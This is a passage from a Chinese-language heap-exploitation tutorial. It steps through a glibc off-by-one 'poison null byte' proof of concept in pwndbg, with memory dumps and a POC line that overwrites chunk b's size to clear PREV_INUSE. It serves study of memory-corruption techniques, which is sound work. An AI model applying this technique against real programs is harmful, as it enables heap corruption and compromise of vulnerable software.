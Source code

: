 ```c
......
0x555555758680:	0x0000000000000000	0x0000000000000111 #barrier(malloc)
...... 
0x555555758790:	0x0000000000000000	0x000000000001f871 #top_chunk
......
0x5555557588f0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

现在我们回到POC代码继续调试：

```c
	printf("b.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0xa00 + 0x10) | prev_in_use\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
	printf("b.size: %#lx\n", *b_size_ptr);
```

如上面注释所说，假如现在有一个off-by-one（单字节溢出）漏洞可以溢出到下一个堆块的mchunk_size，也就是说现在的b堆块的大小被修改为0xa00：

```c
pwndbg> x/800gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
......
0x555555757250:	0x0000000000000000	0x0000000000000511 #a(malloc)
......
0x555555757760:	0x0000000000000000	0x0000000000000a00 #b(free-unsortedbin)
    								#a[real_a_size] = 0
    								#这里原来的数据为0xa11
0x555555757770:	0x00007ffff7dcdca0	0x00007ffff7dcdca0
    								//b_size_ptr指向此处
......
0x555555758160:	0x0000000000000a00	0x0000000000000000
    			//*(size_t*)(b+0x9f0) = 0xa00;
0x555555758170:	0x0000000000000a10	0x0000000000000510 #c(malloc)
......
0x555555758680:	0x0000000000000000	0x0000000000000111 #barrier(malloc)
...... 
0x555555758790:	0x0000000000000000	0x000000000001f871 #top_chunk
......
0x5555557588f0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

关于0xa00的修改有两个目的：

+ 堆块a被认为现在是处于“free”状态，因为b的mchunk_size中PREV_INUSE标志位为0
+ 堆块b现在的大小被修改为0xa00，也就是说现在b堆块的可控范围从0xa08变为了0x9F8：

```c
//修改大小之前（处于malloc）：
0x555555757760:	0x0000000000000000	0x0000000000000a11 #b---
0x555555757770:	0x0000000000000000	0x0000000000000000     ｜
......													   ｜-->堆块b的可控范围：0xa08
0x555555758160:	0x0000000000000a00	0x0000000000000000     ｜//0x8170-0x7770+0x8==0xa08
0x555555758170:	0x0000000000000000	------------------------
                                    0x0000000000000510 #c(malloc)
#pwndbg> p/t 0x0000000000000a11
#$33 = 101000010001
#pwndbg> 
---------------------------------------------------------
//修改大小之后（处于malloc）：
0x555555757760:	0x0000000000000000	0x0000000000000a00 #b---
0x555555757770:	0x0000000000000000	0x0000000000000000     ｜
......													   ｜-->堆块b的可控范围：0x9F8
0x555555758160:	0x0000000000000a00	------------------------ //0x8160-0x7770+0x8==0x9F8
```